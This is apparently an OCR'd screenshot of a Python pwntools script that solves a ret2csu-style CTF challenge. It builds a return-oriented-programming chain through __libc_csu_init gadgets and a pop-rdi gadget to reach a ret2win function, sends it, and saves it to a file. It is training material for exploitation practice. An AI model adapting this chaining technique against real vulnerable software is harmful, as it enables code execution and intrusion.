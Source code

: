 ```Python
payload += p64(0x2)			# rbp must be 1 more then rbx
payload += p64(0x600e48-8)		# Base of the call, do nothing ptr in dynamic
payload += p64(0xdeadbeefdeadbeef)	# edi through r13
payload += p64(0xcafebabecafebabe)	# rsi through r14
payload += p64(0xd00df00dd00df00d)	# rdx through r15
payload += p64(0x0400680)		# ret call to ptr call


payload += p64(0x0123456789abcdef)	# random junk skipped over
# we have to go through all of the pops again from gaget 1

payload += p64(0x1)			# rbx val *8 for call
payload += p64(0x2)			# rbp must be 1 more then rbx
payload += p64(0x600e48-8)		# Base of the call, do nothing ptr in dynamic
payload += p64(0xdeadbeefdeadbeef)	# edi through r13
payload += p64(0xcafebabecafebabe)	# rsi through r14
payload += p64(0xd00df00dd00df00d)	# rdx through r15


payload += p64(0x04006a3)		# pop edi address
payload += p64(0xdeadbeefdeadbeef)	# edi value

payload += p64(0x400510)		# the ret2win addr

# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

input("Hit enter to apptempt exploit")



print(io.clean(0.5).decode("utf-8"))

input("exploit sent hit enter to end")
io.send(payload)


print(io.clean(0.5).decode("utf-8"))


sleep(1)


f = open('./payload', 'wb')
f.write(payload)
f.close()

```